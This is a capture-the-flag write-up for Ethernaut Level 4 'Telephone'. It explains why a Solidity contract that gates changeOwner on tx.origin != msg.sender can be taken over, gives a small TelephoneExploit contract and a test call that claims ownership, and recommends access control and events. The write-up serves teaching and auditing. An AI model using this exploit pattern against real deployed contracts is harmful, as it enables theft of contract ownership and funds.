 # Level 4 - Telephone

You can also read this
[on my blog](https://wizzardhat.com/ethernaut-level-4-telephone/) 😎

## Objectives

- claim ownership of the contract

## Contract Overview

The first thing that caught my attention in the `Telephone` contract was the
condition inside the `if` statement. In the `changeOwner()` function the
`tx.origin != msg.sender` check is exactly the opposite of what I suggested in
the recommendations on the previous level. In the `CoinFlip` contract, it would
have been good to check if the caller is an EOA, to make sure that contracts are
not part of the game. It could have been done with `tx.origin == msg.sender`.

In the `Telephone` contract, it is the opposite. The contract is checking if the
caller is a smart contract.

A `Telephone` contract has one function `changeOwner` which allows any smart
contract to change the owner of the `Telephone` contract.

## Finding the weak spots

The `changeOwner` is responsible for the critical action of changing ownership.
However, it is not protected by any security checks (like `onlyOwner` modifier).
It allows anyone to change the owner of the smart contract which is probably not
intended.

The `Telephone` contract relies on the `tx.origin` which is prone to
[phishing attacks](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin).
It might also be
[removed in the future](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200),
which may result in compatibility issues.

The contract also does not emit events on
[the critical access control parameters](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control),
which makes it difficult to track the ownership changes off-chain.

## Potential attack scenario - hypothesis

_Eve is our attacker_

Eve can create a smart contract, which will call the `Telephone` contract and
change the owner to Eve.

## Plan of the attack

1. Eve calls the `attack` function on her `TelephoneExploit` contract.
2. The `attack` function makes a call to the `Telephone` contract.
3. This call invokes the `changeOwner` function with Eve's address as an
   argument.
4. The ownership is claimed by Eve.

## Proof of Concept - hypothesis test ✅

Here is the `TelephoneExploit` contract:

```solidity
contract TelephoneExploit {
	Telephone telephone;

	constructor(address _telephoneContractAddress) public {
		telephone = Telephone(_telephoneContractAddress);
	}

	function attack(address _newOwner) public {
		telephone.changeOwner(_newOwner);
	}
}
```

Simplified version of the unit test that shows the exploit
([full version here](https://github.com/ChmielewskiKamil/ethernaut-foundry/blob/main/test/04-Telephone.t.sol)):

```solidity
telephoneExploit.attack(eve);
```

Here are the logs from the exploit:

![Logs from the Telephone exploit](https://github.com/ChmielewskiKamil/ethernaut-foundry/blob/main/img/04-Telephone-exploit-logs.png?raw=true)

## Recommendations

- The use of some form of access control is recommended. An example of that
  might be OpenZeppelin Ownable, which provides a basic access control mechanism
  or OZ AccessControl which provides role-based access control.
- The use of `tx.origin` should be removed from the contract.
- Emission of events should be added to the critical `changeOwner()` function.
  It will result in better communication with off-chain components and a better
  user experience overall.

## References

- [Usage of tx.origin - ToB - Slither Detector](https://github.com/crytic/slither/wiki/Detector-Documentation#dangerous-usage-of-txorigin)
- [Missing events on access control - ToB - Slither Detector](https://github.com/crytic/slither/wiki/Detector-Documentation#missing-events-access-control)
- [Tx.origin might not be usable in the future - V. Buterin](https://ethereum.stackexchange.com/questions/196/how-do-i-make-my-dapp-serenity-proof/200#200)
- [More info on tx.origin - Consensys Diligence](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/tx-origin/)
